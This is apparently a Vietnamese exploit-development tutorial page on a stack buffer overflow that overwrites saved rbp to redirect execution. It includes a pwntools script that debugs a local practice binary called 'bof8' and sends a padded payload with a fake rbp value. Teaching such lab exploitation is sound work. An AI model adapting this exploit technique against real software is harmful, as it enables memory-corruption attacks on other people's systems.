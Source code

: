 # Buffer Overflow - Overwrite saved rbp để chuyển hướng luồng thực thi

Buffer Overflow làm thay đổi giá trị của các biến, các địa chỉ và quan trọng nhất là địa chỉ saved rip cũng như saved rbp. Trong video này, chúng ta sẽ tìm hiểu cách khai thác địa chỉ saved rbp khi ta không thể overwrite saved rip được.

***script:***

```python
from pwn import *

context.binary = exe = ELF('./bof8', checksec = False)
p = process(exe.path)

gdb.attach(p, gdbscript = '''
b*buy+89
b*main+118
b*main+207
c        
'''           
)

input()

#leave = mov rsp, rbp ; pop rbp

p.sendafter(b'> ' , b'1')

payload = b'A'*32
payload += p64(0x00000000404848) # Overwrite saved rbp of buy
p.sendafter(b'> ', payload)
p.sendafter(b'> ' , b'3')


p.interactive()
```

